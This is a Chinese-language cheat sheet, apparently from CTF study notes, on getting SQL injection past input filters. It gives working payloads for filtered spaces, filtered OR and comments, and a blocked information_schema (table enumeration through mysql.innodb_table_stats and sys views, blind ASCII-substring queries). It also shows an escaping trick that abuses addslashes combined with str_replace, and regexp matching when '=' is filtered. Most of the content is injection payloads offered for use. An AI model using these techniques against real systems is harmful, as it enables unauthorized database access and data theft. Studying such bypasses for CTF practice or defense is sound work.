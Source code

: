 ## **编码绕过**
is_numeric($_GET[‘id’]) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
空格过滤可以利用/**/代替空格。
利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
将后面的单引号闭合即可。

^
## **or 被过滤导致orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 
```
select group_concat(table_name）from mysql.innodb_table_stats where database_name=database()
```
如果information_schema被禁止，通过sys.schema获取当前数据库表名
```
1&&ascii(substr((select group_concat(table_name)from sys.x$schema_flattened_keys where table_schema=database()),1,1))=103
2||ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),{},1))={}.format()
```
通过无列名注入获取表字段，group_concat(某一字段所有值)。
<https://www.cnblogs.com/hello-there/p/12918265.html>

^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在，特殊字符去除 \0 %00 \' '
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

那么传入\0 先变成\\0 再变成\
如果是sql语句\就会转义后面字符。
select * from images where id='{$id}' or path='{$path}'

select * from images where id='\' or path='   {$path}'
这里'\' or path = ' 成了一个单独字符串
$path就可以随意注入
or sleep(3)--+
```


^
## **where后=被过滤，用字段名使用正则模糊匹配字段的值**
需要知道字段名
```
select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^f')

select flag from Flag where flag regexp "^f";
```
